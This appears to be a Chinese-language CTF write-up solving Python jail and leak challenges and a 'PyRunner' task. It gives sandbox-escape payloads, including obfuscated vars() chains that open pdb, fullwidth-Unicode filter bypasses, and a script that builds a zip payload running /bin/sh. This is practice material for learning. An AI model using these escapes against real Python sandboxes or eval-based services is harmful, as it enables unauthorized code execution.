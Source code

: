 # Jail Level 1-6 & Leak Level 1-2 & PyRunner!

## Jail Level 1

`breakpoint()`

## Jail Level 2

参考 https://zhuanlan.zhihu.com/p/578986988 。由于开启了socat，直接help()函数后在控制台打!sh即可getshell

## Jail Level 3

快乐非ascii字符通杀：`ｂｒｅａｋｐｏｉｎｔ()`（可以绕过过滤但是可以正常执行）

## Jail Level 4

记得题目是个python2，python 2.7的input相当于python3的eval(input())。`open('flag').read()`

## Jail Level 5

`vars(vars()[(*vars(),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]])[(*vars(vars()[(*vars(),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]]),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]]()`

不是我自己想出来的，是在其他CTF里见到的一个逆天payload，当时记下来了。作用是开启pdb

## Jail Level 6

`vars(vars()[[*vars()][-9]])[[*vars(vars()[[*vars()][-9]])][12]]()`

同样是在其他CTF里见到的，参考 https://xhacka.github.io/posts/writeup/2023/07/19/Censorship/#censorship-lite 。不过偏移有些不一样，需要自己找

## PyRunner!

完全就是JustCTF 2023的原题(简化了很多)。但是那题有非预期，这里给它修好了。直接在google就能搜到： https://blog.maple3142.net/2023/06/05/justctf-2023-writeups/#pyplugins 。预期解为 https://gist.github.com/lebr0nli/0837d0c3822c76586fa6582e891a1514

```py
import tempfile
import zipfile
import base64
def create_zip_payload() -> bytes:
    file_name = "__main__.py"
    file_content = b'import os;os.system("/bin/sh")'
    with tempfile.TemporaryFile(suffix=".zip") as f:
        with zipfile.ZipFile(f, "w") as z:
            z.writestr(file_name, file_content)
        f.seek(0)
        return f.read()
temp=f"pwn={create_zip_payload()!r}"
print(base64.b64encode(temp.encode()))
```

## Leak Level 0 & Leak Level 2

`hｅlp()`。用特殊字体（看我就说通杀）绕过滤。然后`__main__`获取真正的admin key

## Leak Level 1

`vars()`